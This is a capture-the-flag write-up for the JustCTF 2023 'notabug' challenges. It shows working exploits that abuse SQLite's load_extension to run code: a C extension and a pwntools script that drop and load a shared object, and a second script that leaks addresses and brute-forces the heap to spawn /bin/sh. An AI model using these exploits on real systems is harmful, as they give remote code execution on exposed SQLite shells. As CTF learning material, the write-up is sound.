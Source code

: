 ```yaml
---
title: "[JustCTF-2023] notabug"
date: 2023-05-31 20:56:00
tags: 
layout: default
---
```

# Prologue

r3kapig, 1st

# noabug

There is a new feature for sqlite that allows loading external libcs.

For challenge Notabug1, we can just load a external lib to execute arbitrary command.


exp.c:
```c
/* Add your header comment here */
#include <stdio.h>
#include <sqlite3ext.h> /* Do not use <sqlite3.h>! */
SQLITE_EXTENSION_INIT1

/* Insert your extension code here */

#ifdef _WIN32
__declspec(dllexport)
#endif
/* TODO: Change the entry point name so that "extension" is replaced by
** text derived from the shared library filename as follows:  Copy every
** ASCII alphabetic character from the filename after the last "/" through
** the next following ".", converting each character to lowercase, and
** discarding the first three characters if they are "lib".
*/
int sqlite3_extension_init(
  sqlite3 *db, 
  char **pzErrMsg, 
  const sqlite3_api_routines *pApi
){
  int rc = SQLITE_OK;
  SQLITE_EXTENSION_INIT2(pApi);
  /* Insert here calls to
  **     sqlite3_create_function_v2(),
  **     sqlite3_create_collation_v2(),
  **     sqlite3_create_module_v2(), and/or
  **     sqlite3_vfs_register()
  ** to register the new features that your extension adds.
  */
  return rc;
}
void exp()
{
    execve("/tmp/readflag",0,0);
}
//select Load_extension('/lib/x86_64-linux-gnu/libc.so.6','puts');
//select Load_extension('/jailed/readflag','_start');
//select cast("\x01\x02\x03\x04" as text) ;
```

exp.py
```py
from pwn import *
context.log_level='debug'
context.arch='amd64'
#context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
# p=process('./pwn')
import binascii
p = remote("0.0.0.0",13337)
ru         = lambda a:     p.readuntil(a)
r         = lambda n:        p.read(n)
sla     = lambda a,b:     p.sendlineafter(a,b)
sa         = lambda a,b:     p.sendafter(a,b)
sl        = lambda a:     p.sendline(a)
s         = lambda a:     p.send(a)
sla(b"> ",b"CREATE TABLE images(name TEXT, type TEXT, img BLOB);")
with open("./exp.so",'rb') as f:
    dt = f.read()
sla(b"> ",b"INSERT INTO images(name,type,img)")
dt = binascii.hexlify(dt)

print(dt.decode())

sla(b"> ",f"VALUES('icon','jpeg',cast(x'{dt.decode()}' as text));")
sla(b"> ",b"SELECT writefile('./exp.so',img) FROM images WHERE name='icon';")
sla(b"> ",b"select Load_extension('./exp','exp');")
p.interactive()
```

The above script works for the local one but not the remote one. My teammate found another way to compile it and make it work for the remote one.


# notabug2

We can also load libc.so.6 to execute arbitrary function but the parameters are fixed.

- Use puts to leak the PIE
- Guess the heap (1/0x2000) and build a fake structure on heap by function gets
- system /bin/sh


```py
from pwn import *

context.log_level='debug'
p = remote("notabug2.nc.jctf.pro",1337)

ru         = lambda a:     p.readuntil(a)
r         = lambda n:        p.read(n)
sla     = lambda a,b:     p.sendlineafter(a,b)
sa         = lambda a,b:     p.sendafter(a,b)
sl        = lambda a:     p.sendline(a)
s         = lambda a:     p.send(a)



sla(b"lite>",b"select Load_extension('/lib/x86_64-linux-gnu/libc.so.6','puts');")
ru(": \n")
lic = u64(p.recvn(6).ljust(8,b'\x00'))
warning(hex(lic))
pie_base = lic - 0x1589a0

heap = 0x00005555556b0000-0x0000555555554000+pie_base # 1/0x2000

heap1 = 0x1150 + heap
heap2 = 0x103c0 + heap
# system_plt = (pie_base+0x2228C)
system_plt = pie_base + 0x10910
if pie_base > 0x600000000000:
    p.close()
warning(hex(pie_base)) #lic+0x28b8
sla(b"lite>",b"select Load_extension('/lib/x86_64-linux-gnu/libc.so.6','gets');")
p.sendline(p64(heap+0x11eb0)+b'a'*0x8+p64(pie_base+0x000000000009e0ad))
# raw_input()
dt = b"/bin/sh\0"+flat([0]*8)+ flat([0]*8)+ p64(system_plt)
sla(b"lite> ",f"select cast(x'{dt.hex()}' as text), ".encode()+b"Load_extension('"+p64(system_plt)[:6]+b"','/bin/sh');")
p.sendline(b"echo n132")
data = p.read(timeout=1)

if b'n132' in data:
    p.sendline("/jailed/readflag")
    p.read()
    input()
    p.interactive()
else:
    p.close()
```

# Epilogue

- Learned something about sqlite, pwning a complex binary.
- Practice some skills learned from bash-revenge
- Practice Beapoverflow